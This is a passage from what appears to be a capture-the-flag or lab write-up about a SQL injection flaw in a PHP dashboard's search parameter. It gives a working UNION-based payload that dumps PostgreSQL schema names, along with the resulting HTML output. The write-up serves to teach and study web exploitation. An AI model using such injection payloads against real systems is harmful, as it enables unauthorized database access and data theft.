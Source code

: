 > More details on how `order by` helps in `UNION` injection at [Additional readings](#additional-readings).

So, we can exploit that by using the `UNION` injection. For example, here is the schema names dump:

```txt
GET /dashboard.php?search='UNION+ALL+SELECT+NULL,concat(schema_name),NULL,NULL,NULL+FROM+information_schema.schemata%3b-- HTTP/1.1
```

> It happens that during this enumeration there are lefovers after previous hackers. Actual schemas list is in next section.

```html
<tr>
    <td class='lalign'>information_schema</td>
    <td></td>
    <td></td>
    <td></td>
</tr>
<tr>
    <td class='lalign'>public</td>
    <td></td>
    <td></td>
    <td></td>
</tr>
<tr>
    <td class='lalign'>pg_catalog</td>
    <td></td>
    <td></td>
    <td></td>
</tr>
<tr>
    <td class='lalign'>pg_toast_temp_1</td>
    <td></td>
    <td></td>
    <td></td>
</tr>
<tr>
    <td class='lalign'>pg_temp_1</td>
    <td></td>
    <td></td>
    <td></td>
</tr>
<tr>
    <td class='lalign'>pg_toast</td>
    <td></td>
    <td></td>
    <td></td>
</tr>
```

[Back to top](#contents) ⤴

## Injectable parameter vulnerability
